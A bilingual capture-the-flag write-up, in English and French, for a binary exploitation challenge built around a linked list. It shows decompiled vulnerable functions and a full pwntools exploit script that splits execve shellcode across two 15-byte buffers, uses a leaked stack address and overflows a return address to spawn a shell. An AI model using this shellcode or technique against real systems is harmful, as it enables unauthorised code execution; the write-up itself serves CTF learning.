

Description
Linked lists are great! They let you chain pieces of data together.
nc pwn.chal.csaw.io 9005
You can download the ELF file : here
TL;DR
This challenge uses linked list and leaks an address, the stack is executable, a short shellcode and a relative jump will do the trick !
Methology
Step 1 : Use IDA to decompile the program, find the two useful functions that fills the linked list and expose the buffer overflow.
__int64 nononode()
{
char v1; // [rsp+0h] [rbp-40h]
__int64 v2; // [rsp+8h] [rbp-38h]
char *v3; // [rsp+20h] [rbp-20h]
__int64 v4; // [rsp+28h] [rbp-18h]
v3 = &v1;
puts("(15 bytes) Text for node 1: ");
readline(&v4, 15LL); // <- Shellcode here
puts("(15 bytes) Text for node 2: ");
readline(&v2, 15LL); // <- Shellcode here
puts("node1: ");
printNode(&v3);
return goodbye(); // <- Overflow func here
}
int goodbye()
{
char s; // [rsp+Dh] [rbp-3h]
puts("What are your initials?");
fgets(&s, 32, stdin); // <- Overflow here
return printf("Thanks %s\n", &s);
}
Step 2 : Find a short shellcode, code the exploit, and jump in !
#!/usr/bin/env python2
from pwn import *
shellcode = "\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb"
shellcode += "\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05"
# jmp short 0x13 (rip when reaching this instruction - @second)
jmp_rip_p10 = "\xEB\x11"
offset = 11
r = remote("pwn.chal.csaw.io", 9005)
#r = process("./shellpointcode") # local debugging
r.readuntil("node 1: \n")
r.sendline(shellcode[15 - 2:])
r.readuntil("node 2: \n")
r.sendline(shellcode[:15 - 2] + jmp_rip_p10)
r.readline()
adr = r.readline().split(": ")[1].split("\n")[0]
print "adr", adr
adr = int(adr[2:], 16)
second = adr + 0x8 # constant offset in the stack
first = second + 0x20 # reach the 2nd buffer, constant offset in the stack
print "second", hex(second)
print "first", hex(first)
r.readuntil("\n\n")
# pause() # time to attach gdb and continue
r.sendline("A" * offset + p64(second))
r.interactive()
Step 3 : Run the exploit !

Pretty straight forward, I likes this challenge as it requires to find a small shellcode and permute instructions it split it in two small parts without breaking it.
French version
Description
Les listes chainées sont géniales ! Elles vous permettent de chaîner des données ensemble.
nc pwn.chal.csaw.io 9005
Vous pouvez télécharger le fichier ELF : ici
TL;DR
This challenge uses linked list and leaks an address, the stack is executable, a short shellcode and a relative jump will do the trick !
Ce challenge utilise une liste chainée, fait fuiter une adresse, et la pile est exécutable. Un petit shellcode, un saut relatif et le tour est joué !
Methologie
Etape 1 : Utiliser IDA pour décompiler le programme, trouver les deux fonctions utiles qui remplissent la liste chainée et expose le buffer overflow.
__int64 nononode()
{
char v1; // [rsp+0h] [rbp-40h]
__int64 v2; // [rsp+8h] [rbp-38h]
char *v3; // [rsp+20h] [rbp-20h]
__int64 v4; // [rsp+28h] [rbp-18h]
v3 = &v1;
puts("(15 bytes) Text for node 1: ");
readline(&v4, 15LL); // <- Shellcode here
puts("(15 bytes) Text for node 2: ");
readline(&v2, 15LL); // <- Shellcode here
puts("node1: ");
printNode(&v3);
return goodbye(); // <- Overflow func here
}
int goodbye()
{
char s; // [rsp+Dh] [rbp-3h]
puts("What are your initials?");
fgets(&s, 32, stdin); // <- Overflow here
return printf("Thanks %s\n", &s);
}
Etape 2 : Trouver un petit shellcode, coder l’exploit, et jump au bon endroit !
#!/usr/bin/env python2
from pwn import *
shellcode = "\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb"
shellcode += "\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05"
# jmp short 0x13 (rip when reaching this instruction - @second)
jmp_rip_p10 = "\xEB\x11"
offset = 11
r = remote("pwn.chal.csaw.io", 9005)
#r = process("./shellpointcode") # local debugging
r.readuntil("node 1: \n")
r.sendline(shellcode[15 - 2:])
r.readuntil("node 2: \n")
r.sendline(shellcode[:15 - 2] + jmp_rip_p10)
r.readline()
adr = r.readline().split(": ")[1].split("\n")[0]
print "adr", adr
adr = int(adr[2:], 16)
second = adr + 0x8 # constant offset in the stack
first = second + 0x20 # reach the 2nd buffer, constant offset in the stack
print "second", hex(second)
print "first", hex(first)
r.readuntil("\n\n")
# pause() # time to attach gdb and continue
r.sendline("A" * offset + p64(second))
r.interactive()
Etape 3 : Lancer l’exploit !
Plutôt simple, j’ai bien aimé ce challenge car il nécessite de trouver un shellcode concis et de permuter les instructions pour le diviser en deux petites parties sans le casser.